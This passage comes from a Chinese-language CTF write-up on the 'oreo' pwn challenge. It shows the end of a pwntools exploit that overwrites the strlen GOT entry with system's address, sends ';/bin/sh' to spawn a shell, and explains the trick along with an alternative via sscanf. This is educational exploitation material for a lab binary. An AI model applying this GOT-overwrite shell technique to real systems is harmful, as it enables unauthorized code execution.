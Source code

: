 ```python
    order_refles()

    show_refles()
    # Overwrite the strlen_got
    name = 'fuck U~'
    desc = p32(strlen_got)
    add_refles(name, desc)

    leave_message(p32(system_addr)+ ";/bin/sh\x00")

    sh.interactive()


main()
```

&emsp;&emsp;这里有个点值得注意，我们最后一步覆盖system_got的时候可以直接传`p32(system_addr) + ";/bin/sh\x00"`.因为,在strlen被覆盖之后，会执行`addEnd()`函数，相当于`strlen(p32(system_addr) + ";/bin/sh\x00".)`即`system(p32(system_addr)) 和 system("/bin/sh\x00")`这样就可以快速getshell。当然，也可以覆盖其他函数的got表，比如sscanf，然后在输入的action的时候输入`/bin/sh`也可getshell。

![shell](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/oreo.png?raw=true)

































